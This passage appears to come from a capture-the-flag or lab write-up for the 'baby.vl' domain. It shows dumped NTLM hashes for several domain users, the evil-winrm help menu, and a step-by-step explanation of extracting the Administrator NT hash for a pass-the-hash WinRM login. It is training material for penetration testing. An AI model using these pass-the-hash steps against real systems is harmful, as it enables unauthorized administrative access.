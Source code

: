 ```bash
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

## Winrm as Administrator

With the NTLM hash for the administrator we can now login via winrm.  Usually we would need a valid username and password combination, but what we can do instead is the use the hash to `pass-the-hash`.  If we look at the help menu for evil-winrm we can see the `-H` flag.

```bash
evil-winrm -h                                                                               
                                        
Evil-WinRM shell v3.7

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-a USERAGENT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -a, --user-agent USERAGENT       Specify connection user-agent (default Microsoft WinRM Client)
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message
                                                               
```

So looking at the Administrator hash dumped.  We want the last section of the hash.

Dumped hash:
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::`

Section we need to pass-the-hash:
`ee4457ae59f1e3fbd764e33d9cef123d`

Lets connect to the box as Administrator via evil-winrm.
